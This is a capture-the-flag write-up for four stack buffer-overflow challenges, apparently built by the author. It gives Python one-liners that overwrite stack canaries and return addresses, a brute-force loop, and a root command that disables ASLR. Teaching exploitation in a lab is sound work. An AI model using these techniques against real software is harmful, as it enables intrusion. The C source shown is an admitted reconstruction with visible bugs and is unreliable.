 [Full writeup on blog](https://nicholaskrabbenhoft.com/Sp00kyCTF-Write-ups-Killer-Canary-1-4/)







## Quick note:

I hope everyone had fun with these challenges. I know they were a ton of fun to make and help you all work through them. I love talking about all of this stuff so if anyone wants to ask me questions about how they work feel free to shoot me a message on slack, discord, or on github (if that exists)




# Killer Canary 1

`python3 -c "print('A' * 400)" | ./level1`

This is a relitivly simple Binary exploitation challenge. You simply have to know what a buffer overflow is and pipe in a massive amount of input into the binary.

The binary catches SEGFAULTs and reveals the flag to you.



//NOTE: this is not the real source, it has been smashed and I have to find my backups for the real one

```C
void segfault_sigaction(int signal, siginfo_t *si, void *arg)

{

 printf("Caught segfault at address %p", si->si_addr);

 printf("The signal is %d ", signal);

 printf("the flag is:");

 FILE *fptr;

 char c;

 while (c != EOF)
 {

 printf ("%c", c);

 c = fgetc(fptr);

 }
  

 exit(0);

}

  

int main(void)

{

 int string[200];

 struct sigaction sa;

  

 memset(&sa, 0, sizeof(struct sigaction));

 sigemptyset(&sa.sa_mask);

 sa.sa_sigaction = segfault_sigaction;

 sa.sa_flags = SA_SIGINFO;

  

 sigaction(SIGSEGV, &sa, NULL);

  

 puts("Input please");

 /* Cause a seg fault */

 gets(string);

 puts("recived: ");

 puts(string);

 puts("thank you :)");

 printf("Return to %p", __builtin_return_address(0));

 return 0;

}
```




# Killer Canary 2

`python3 -c 'import sys; import struct; val = struct.pack("I", 0xdeadbeef); sys.stdout.buffer.write(b"A" * 32 + val)' | ./level2`

This challenges introduces the idea of a stack canary. The idea is you have to overflow the buffer, like last time, however you have to leave the 

First thing you should do is overflow the buffer again and see what it does. It prints:
```C

main(){


    struct sigaction sa;





    memset(&sa, 0, sizeof(struct sigaction));
    sigemptyset(&sa.sa_mask);
    sa.sa_sigaction = segfault_sigaction;
    sa.sa_flags   = SA_SIGINFO;

    sigaction(SIGSEGV, &sa, NULL);


    struct data data = {
        .yourinput = { 0 },
        .give_flag = 0,
    };

    printf("Input:");
    gets((char*) &data.yourinput);


    puts("
");
    puts((char*) &data.yourinput);

    if (data.give_flag == 0xDEADBEEF) {
        give_flag();

    }
    return 1;
```
also your give flag was 0x41414141

This lets us know that our give flag was 0x41414141, which is the 'A's that we piped in and we see that it has to be 0xdeadbeef. So now it is just a guess and check to see. After a bunch of checking we see that 32 A get you to the give flag input. Then you have to driectly write deadbeaf to the program. I use struct.pack in python to do that and then rather then using print I use the sys.stdout.buffer.write because it bypasses all of the internal code for the other ways and lets you output raw bytes.


# Killer 3
 `python3 -c 'import sys; import struct; val = struct.pack("I", 0xdeadbeef); rVal = struct.pack("I", 0x555552a4); rVal2 = struct.pack("I", 0x00005555); sys.stdout.buffer.write(b"A" * 8 + val + b"A" * 168 + rVal + rVal2)' | ./level3`
 
 
 As before, the first thing we do is try and overflow the buffer and we see we kill the bird again
 

└─$ python3 -c "print('A'*1000)" | ./level3
Here's my favorite bird, what do you think his name is:
You killed my birdy, it was 0xdeadbeef but you killed him so now he's 0x41414141
I will make you pay for that


So we do some guess and check to figure out how many A's are needed to overwrite the bird to make it deadbeef again. This happens to be 8 A's and then we output dead beef again to get pass it.

So we run it again overflowing after the canary and get this:

A" * 8 + val + b"A" * 200 + rVal + rVal2)' | ./level3
Here's my favorite bird, what do you think his name is:
Oh my birdy likes you: 0xdeadbeef thinks you're a nice person so you can stay for now
Here let me show you to 0x4141414141414141
Caught segfault at address (nil)
You seem to be struggling
Here's a pointer that you may want to check it out: 0x00005555555552a4

We see we are going to 0x4141414141414141 in the code and it tells use we want to go to  0x00005555555552a4. 



Important note: you will only see this if you turn off your aslr on your computer by running the following command as root
`echo 0 > /proc/sys/kernel/randomize_va_space`


At this point you have to create 2 packeted structs to get a 8 byte val you and guess and check your way to find the number of bytes after the canary you have to put them.


# Killer 4
```Bash
for i in {0..10000}; do python3 -c 'import sys; import struct; val = struct.pack("I", 0x6551677d); rVal = struct.pack("I", 0x555553c6); rVal2 = struct.pack("I", 0x00005555); sys.stdout.buffer.write(b"A" * 12 + val + b"A" * 24 + rVal + rVal2)' | ./level4 | tee -a debug ; sleep 1; done
```

I don't have time to do a full write up to explain how this works, but this is the PoC one liner to get the flag. It's not ideal as it only has a 1% of working every time it runs which is why it's run 10000 times.




